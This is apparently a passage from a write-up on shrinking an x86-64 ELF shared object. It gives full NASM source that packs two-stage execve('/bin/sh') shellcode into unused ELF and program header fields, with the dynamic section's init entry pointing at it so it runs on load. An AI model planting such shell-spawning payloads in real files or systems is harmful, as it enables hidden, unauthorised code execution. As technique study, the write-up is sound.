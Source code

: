 The final thing we can do is split our shellcode up into multiple stages and fill in the empty gaps.
- The `e_shoff` and `e_flags` fields take up 12 empty bytes in the ELF header.
- The `p_paddr` and `p_filesz` fields in the loadable segment take up 16 bytes.

Using an [online disassembler](https://defuse.ca/online-x86-assembler.htm), we can count bytes as we try to minimize the shellcode.
We can fit the "/bin/sh" string followed by a short jump to stage 2 perfectly into the empty space in the ELF header.
Stage 2 fits into the 16 bytes in the program header.
Through these optimizations we have eliminated the entire code section and moved it into the headers to give us the following:

```asm
BITS 64

ehdr:                               ; Elf64_Ehdr
        db  0x7f, "ELF", 2, 1, 1, 0 ; e_ident
times 8 db  0
        dw  3                       ; e_type
        dw  0x3e                    ; e_machine
        dd  1                       ; e_version
        dq  stage1                  ; e_entry
        dq  phdr - $$               ; e_phoff
stage1: ; 12 bytes
        mov rdi, 0x68732f6e69622f  ; 10 bytes
        jmp stage2  ; 2 bytes

        dw  ehdrsize                ; e_ehsize
        dw  phdrsize                ; e_phentsize
        dw  2                       ; e_phnum
ehdrsize  equ  $ - ehdr

phdr:                               ; Elf64_Phdr
        dd  1                       ; p_type
        dd  7                       ; p_flags
        dq  0                       ; p_offset
        dq  $$                      ; p_vaddr
stage2: ; 16 bytes
        xor rax, rax  ; 3
        push rdi  ; 1
        push rsp  ; 1
        pop rdi   ; 1
        push 0    ; 1
        push rdi  ; 1
        mov rsi, rsp  ; 3
        mov al, 59  ; 2
        syscall  ; 2

        dq  progsize                ; p_memsz
        dq  0x1000                  ; p_align
phdrsize  equ  $ - phdr
        dd  2                       ; p_type
        dd  7                       ; p_flags
        dq  dynamic                 ; p_offset
        dq  dynamic                 ; p_vaddr

dynamic:
  dt_init:
        dq  0xc, stage1
  dt_strtab:
        dq  0x5, stage1
  dt_symtab:
        dq  0x6, stage1
dynsize  equ  $ - dynamic
```